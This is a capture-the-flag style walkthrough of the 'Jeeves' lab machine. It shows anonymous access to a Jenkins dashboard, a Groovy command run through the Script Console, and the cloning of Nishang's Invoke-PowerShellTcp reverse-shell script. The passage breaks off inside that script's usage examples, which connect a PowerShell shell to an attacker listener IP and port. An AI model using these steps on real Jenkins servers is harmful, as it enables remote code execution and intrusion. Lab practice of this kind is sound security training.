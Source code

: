 After visting the /askjeeves I was landed in the dashboard but no login credentials.
![askjeeves dashboard](../../Assets/walktrhough-assets/jeeves/2025-02-09_1.png)
From the look of it I can see that I already have a anonymous login so I will go through the links and configurations and find where I can inject code or commands.
I found that if I go to the `Manage Jenkins` then to `Script consol` I can run command in `Groovy language`
![](../../Assets/walktrhough-assets/jeeves/2025-02-09_2.png)

As I run a sample command `whoami` I get the output see the screenshot for result.
```bash
cmd = "whoami"
println cmd.execute().txt
```
![](../../Assets/walktrhough-assets/jeeves/2025-02-09_3.png)



While searching for a one-liner shell, I came across the Nishang repository on GitHub. I cloned the entire repository to /opt using:

```bash
git clone https://github.com/samratashok/nishang.git /opt/nishang
```
Next, I copied the Invoke-PowerShellTcp.ps1 script and modified it by extracting the relevant lines from the highlighted section down to the end of the script. I then updated the IP address and port to match my listener configuration.

```bash hl_lines="18 127"
function Invoke-PowerShellTcp 
{ 
<#
.SYNOPSIS
Nishang script which can be used for Reverse or Bind interactive PowerShell from a target. 

.DESCRIPTION
This script is able to connect to a standard netcat listening on a port when using the -Reverse switch. 
Also, a standard netcat can connect to this script Bind to a specific port.

The script is derived from Powerfun written by Ben Turner & Dave Hardy

.PARAMETER IPAddress
The IP address to connect to when using the -Reverse switch.

.PARAMETER Port
The port to connect to when using the -Reverse switch. When using -Bind it is the port on which this script listens.

.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress 192.168.254.226 -Port 4444

Above shows an example of an interactive PowerShell reverse connect shell. A netcat/powercat listener must be listening on 
the given IP and port. 

.EXAMPLE
PS > Invoke-PowerShellTcp -Bind -Port 4444

Above shows an example of an interactive PowerShell bind connect shell. Use a netcat/powercat to connect to this port. 

.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress fe80::20c:29ff:fe9d:b983 -Port 4444

```